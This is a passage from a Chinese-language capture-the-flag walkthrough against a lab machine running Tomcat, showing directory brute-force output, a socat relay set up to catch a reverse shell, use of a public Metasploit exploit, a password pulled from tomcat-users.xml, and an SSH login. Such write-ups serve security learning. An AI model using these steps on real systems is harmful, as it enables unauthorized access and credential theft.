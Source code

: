 ~~~
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 0]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 0]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 0]
/http%3A%2F%2Fblog    (Status: 400) [Size: 0]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 0]
/External%5CX-News    (Status: 400) [Size: 0]
/http%3A%2F%2Fcommunity (Status: 400) [Size: 0]
/http%3A%2F%2Fradar   (Status: 400) [Size: 0]
/http%3A%2F%2Fjeremiahgrossman (Status: 400) [Size: 0]
/http%3A%2F%2Fweblog  (Status: 400) [Size: 0]
/http%3A%2F%2Fswik    (Status: 400) [Size: 0]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
~~~
先前我们得到了一个目录，访问一下
![Branching](Pasted image 20241106145729.png)
找到一个上传文件的入口

在starylight上设置一个反向端口转发
~~~
socat -ddd TCP-LISTEN:5555,fork TCP:192.168.56.101:4444 &> /dev/null &
~~~
以便反弹shell
发现有RCE，但是这个需要requests库，而我们的靶机上没有，只能寻找其他利用
![Branching](Pasted image 20241106151736.png)
找到了可利用的[exp](https://github.com/rapid7/metasploit-framework/issues/8064)
![Branching](Pasted image 20241106154240.png)
先把shell弹回来
![Branching](Pasted image 20241106155452.png)
搜集一下信息
在tomcat-users.xml中找到登录凭据
![Branching](Pasted image 20241106161710.png)
是HTML硬编码，解码得到
![Branching](Pasted image 20241106161841.png)
~~~
>!Xx3JanexX!<
~~~
ssh连接

![Branching](Pasted image 20241106162102.png)

一番枚举后没发现什么信息，回过头看看

![Branching](Pasted image 20241106164420.png)
